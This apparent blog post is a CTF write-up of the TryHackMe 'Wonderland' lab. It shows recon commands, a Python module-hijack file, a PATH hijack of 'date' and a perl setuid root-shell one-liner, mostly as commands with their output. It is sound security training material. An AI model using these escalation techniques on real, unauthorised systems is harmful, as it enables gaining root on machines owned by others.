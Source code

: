 ```yaml
---
title: Wonderland Writeup | TryHackMe
date: 2022-01-30 00:00:00 +/-TTTT
categories: [Writeup, TryHackMe]
tags: [writeup, tryhackme, ctf, wonderland, privesc, linux]
author:
  name: v3r4x
---
```



## Overview

This is my writeup for the Wonderland CTF.  The Wonderland CTF is a free room of intermediate difficulty which tests your knowledge of privilege escalation.  This challenge has no shortage of rabbit holes (pun intended) so it's important to remain cautious and stick to your methodology.

## How to Access

I completed this CTF challenge on TryHackMe.

Link to the room:
- https://tryhackme.com/room/wonderland

## Steps

When tackling a CTF like this, the standard practice is to start with reconnaissance.  I typically start with an nmap scan:

```
$ nmap -sC -sV -T4 -p- -oN nmap/initial_scan 10.10.7.151
# Nmap 7.91 scan initiated Sun Mar 14 00:30:18 2021 as: nmap -sC -sV -T4 -p- -oN nmap/initial_scan 10.10.7.151
Nmap scan report for 10.10.7.151
Host is up (0.056s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Mar 14 00:30:54 2021 -- 1 IP address (1 host up) scanned in 35.96 seconds
```

According to the scan, ports 22 (SSH) and 80 (HTTP) are open.  I then navigated to the website to manually investigate whilst `gobuster` was running in the background:

```
$ gobuster dir -e -u 10.10.7.151 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.7.151
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Expanded:       true
[+] Timeout:        10s
===============================================================
2021/03/14 00:33:52 Starting gobuster
===============================================================
http://10.10.7.151/img (Status: 301)
http://10.10.7.151/index.html (Status: 301)
http://10.10.7.151/r (Status: 301)
===============================================================
2021/03/14 00:34:12 Finished
===============================================================
```

Whilst manually crawling through the website, I discovered the `/img` directory and downloaded each image onto my machine.  I then used `steghide` to see if there was anything embedded in the images:

```
$ steghide extract -sf white_rabbit_1.jpg
Enter passphrase:
wrote extracted data to "hint.txt".
$ cat hint.txt
follow the r a b b i t
```

The `gobuster` output revealed a `/r` directory.  Navigating to this shows:

![r directory](/assets/posts/20220130/r_directory.png)

From the `hint.txt`, I realised that there within this directory there is a `/a` directory.  So, navigating to `/r/a/b/b/i/t` reveals:

![follow the r a b b i t](/assets/posts/20220130/r_a_b_b_i_t.png)

Inspecting the source code of this page revealed a hidden paragraph:

`<p style="display: none;">alice:H********************************************l</p>`

This looks like a username:password combination.  So, I can now login via SSH:

![ssh login with alice](/assets/posts/20220130/alice_ssh_login.png)

The `alice` user's home directory shows two files:
- root.txt: cannot be read.
- walrus_and_the_carpenter.py: script that prints 10 random lines from a poem string.

I decided to inspect what commands we can run as `alice`:

```
$ sudo --list
[sudo] password for alice:
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

Looks like we can run the Python file.  Sample output:

```
$ python walrus_and_the_carpenter.py
The line was:    "The night is fine," the Walrus said
The line was:    Holding his pocket handkerchief
The line was:    The sun was shining on the sea,
The line was:    The Carpenter said nothing but
The line was:    "The time has come," the Walrus said,
The line was:    And made them trot so quick!"
The line was:    Pepper and vinegar besides
The line was:    Before his streaming eyes.
The line was:    With sobs and tears he sorted out
The line was:    And why the sea is boiling hot —
```

This means we can hijack the module and spawn a bash shell by creating a `random.py` file in the same directory.  Here is a link to the article which I used: [click here](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8).

My `random.py` file simply imports `os` and `pty`, and then uses `.spawn()` to create a bash shell process.  I can then execute this as the `rabbit` user, completing the privilege escalation.

```
""" random.py - python module hijacking """
import os
import pty

pty.spawn('/bin/bash')
```

The result:

```
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$
```

Within the `rabbit` user's `/home` directory there is a executable file named `teaParty`:

```
rabbit@wonderland:/home/rabbit$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Sun, 14 Mar 2021 02:03:38 +0000
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
```

I downloaded this file onto my own machine using Python's `http.server`.  On the room machine, I ran:

```
rabbit@wonderland:/home/rabbit$ python3.6 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.9.150.161 - - [14/Mar/2021 01:10:29] "GET /teaParty HTTP/1.1" 200 -
```

And, on my machine, I ran:

```
$ wget http://10.10.7.151:8000/teaParty
--2021-03-14 01:10:29--  http://10.10.7.151:8000/teaParty
Connecting to 10.10.7.151:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16816 (16K) [application/octet-stream]
Saving to: ‘teaParty’

teaParty           100%[===============>]  16.42K  --.-KB/s    in 0.07s   

2021-03-14 01:10:29 (237 KB/s) - ‘teaParty’ saved [16816/16816]
```

After analysing the decompiled code, I found that "Segmentation fault (core dumped)" is printed as a string, and is not an error.  I then noticed that the `date` module was being called, so I used the same module hijacking exploit that used earlier.  I first created a file called `date`:

```
#!/bin/bash
echo "Hijacking date module..."
/bin/bash
```

When run, this escalates privileges to become the `hatter` user.  Navigating to their home directory reveals a `password.txt` file which contains their login credentials.

`W*************************k`

Using `sudo -l`, it appears that this user has perl capabilities.  This means I can do further privilege escalation by setting the UID of `hatter` to 0 (root):

```
hatter@wonderland:~$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX:;setuid(0); exec "/bin/sh";'
# ls /home/alice
__pycache__  random.py  root.txt  walrus_and_the_carpenter.py
# cat /home/alice/root.txt
thm{T********************************************************!}
```

Going further into the `/root` directory:

```
# ls -la /root
total 28
drwx--x--x  4 root root 4096 May 25  2020 .
drwxr-xr-x 23 root root 4096 May 25  2020 ..
lrwxrwxrwx  1 root root    9 May 25  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwxr-xr-x  3 root root 4096 May 25  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 May 25  2020 .ssh
-rw-r--r--  1 root root   32 May 25  2020 user.txt
# cat /root/user.txt    
thm{"C**********************!"}
#
```

And that's it!  All done!

## Summary and Feedback

This challenge really tested my knowledge of privilege escalation.  If you are more of a beginner, I would strongly recommend trying one of the easier rooms as I didn't know many of the tactics used in this guide (found due to extensive Googling).